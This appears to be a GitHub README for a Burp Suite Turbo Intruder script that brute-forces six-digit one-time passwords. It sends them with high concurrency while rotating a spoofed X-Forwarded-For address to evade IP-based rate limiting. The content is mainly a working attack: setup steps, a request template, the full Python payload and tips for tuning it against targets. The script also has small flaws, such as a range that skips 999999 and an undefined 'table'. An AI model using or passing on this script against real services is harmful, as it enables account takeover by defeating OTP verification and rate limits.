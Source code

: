 # Race-Condition-Scripts

## OTP Brute-Force with IP Rotation (Race Condition Exploit)

 ### How to Configure

1. In Burp Suite Capture a legitimate OTP request
2. Right-click → "Convert to Turbo Intruder attack"
3. Replace the OTP value with `%s` in the body
4. Add/Modify the `X-Forwarded-For` header to use `%s`

Example request template:

```

POST /verify-otp HTTP/1.1

Host: target.com

X-Forwarded-For: %s

Content-Type: application/json

  

{"OTP":"%s"}

```

Payload:
```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=300,
                          requestsPerConnection=100,
                          pipeline=False)

    # Initialize IP counter (starts at 1.1.1.1)
    ip_parts = [1, 1, 1, 1]

    for otp in range(000000, 999999):  # 000000 to 999999
        # Format current IP
        current_ip = "%d.%d.%d.%d" % tuple(ip_parts)
        
        # Increment IP (1.1.1.1 → 1.1.1.2 → ... → 1.1.1.255 → 1.1.2.0)
        ip_parts[3] += 1
        if ip_parts[3] > 255:
            ip_parts[3] = 1
            ip_parts[2] += 1
            if ip_parts[2] > 255:
                ip_parts[2] = 1
                ip_parts[1] += 1
                if ip_parts[1] > 255:
                    ip_parts[1] = 1
                    ip_parts[0] += 1

        # Pad OTP with leading zeros
        otp_str = str(otp).zfill(6)
        
        # Queue the request with parameters in correct order
        # First %s is for X-Forwarded-For (IP)
        # Second %s is for OTP in JSON body
        engine.queue(target.req, [current_ip, otp_str])


def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)

```
### Request Structure
### Flowchart:

![Flowchart](https://raw.githubusercontent.com/spiritedonion/Race-Condition-Scripts/refs/heads/main/Race%20Condition.png)

The script generates requests with:

1. **Header**: `X-Forwarded-For: [current IP]` (e.g., `X-Forwarded-For: 1.1.1.1`)
2. **JSON Body**: `{"OTP": "[padded OTP]"}` (e.g., `{"OTP": "318121"}`)
### Attack Workflow

1. **IP Rotation**: Cycles through IPs from 1.1.1.1 to 255.255.255.255
2. **OTP Generation**: Tests all 6-digit combinations from 000000 upwards
3. **Concurrent Execution**: 300 parallel connections × 100 requests each
4. **Response Handling**: Any non-404 response is flagged as potentially valid
### Important Notes

- Adjust the OTP range (`000000-999999`) based on target hints
- Modify `concurrentConnections` based on target stability
- The IP rotation helps bypass IP-based rate limiting
- High concurrency exploits potential race conditions in OTP validation